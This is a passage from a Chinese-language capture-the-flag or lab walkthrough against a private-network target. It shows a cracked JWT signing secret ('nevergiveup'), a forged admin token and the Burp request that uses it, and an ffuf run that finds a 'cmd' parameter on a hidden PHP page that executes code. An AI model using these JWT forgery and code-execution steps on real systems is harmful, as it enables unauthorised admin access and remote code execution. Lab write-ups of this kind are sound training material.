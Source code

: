 成功破解密钥：**nevergiveup**

这个密钥正好与首页提示"never give up 记住这个要考"相呼应。

## JWT 伪造

使用破解的密钥伪造管理员令牌，将用户角色从 `user` 修改为 `admin`，用户名从 `ame` 修改为 `root`。

伪造后的令牌：

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJtb2JhbiIsImlhdCI6MTc1OTIzMTIxMCwiZXhwIjoxNzU5MjM0ODEwLCJzdWIiOiJyb290Iiwicm9sZSI6ImFkbWluIn0.jdhsCDdp8oenKbRyjz4OczSwoBAz0lsgFS54wUp2JK4
```

## 管理员权限获取

使用伪造的令牌访问 admin 页面，在 Burp Suite 中修改请求：

```
POST /admin HTTP/1.1
Host: 192.168.205.235
...
Content-Length: 31
...

username=&password=&otp=&token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJtb2JhbiIsImlhdCI6MTc1OTIzMTIxMCwiZXhwIjoxNzU5MjM0ODEwLCJzdWIiOiJyb290Iiwicm9sZSI6ImFkbWluIn0.jdhsCDdp8oenKbRyjz4OczSwoBAz0lsgFS54wUp2JK4
```

成功进入管理面板，页面提示存在隐藏文件：**karsakarsa369.php**

# 四、代码执行漏洞利用

## 隐藏页面发现

访问提示的隐藏页面：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 192.168.205.235/karsakarsa369.php           
fuzz
```

页面返回提示"fuzz"，说明需要对参数进行模糊测试。

## 参数爆破

使用 ffuf 对 PHP 函数参数进行爆破：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ffuf -u 'http://192.168.205.235/karsakarsa369.php?FUZZ=phpinfo();' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --fs 4
...
cmd                     [Status: 200, Size: 86168, Words: 4281, Lines: 1024, Duration: 4ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
